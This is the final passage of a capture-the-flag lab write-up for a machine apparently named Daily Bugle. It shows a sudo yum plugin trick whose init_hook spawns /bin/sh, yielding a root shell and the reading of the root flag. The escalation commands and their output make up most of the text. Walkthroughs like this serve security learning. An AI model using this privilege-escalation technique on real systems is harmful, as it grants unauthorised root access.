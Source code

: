 ````commandline
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cat /root/root.txt 
REDACTED
sh-4.2
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
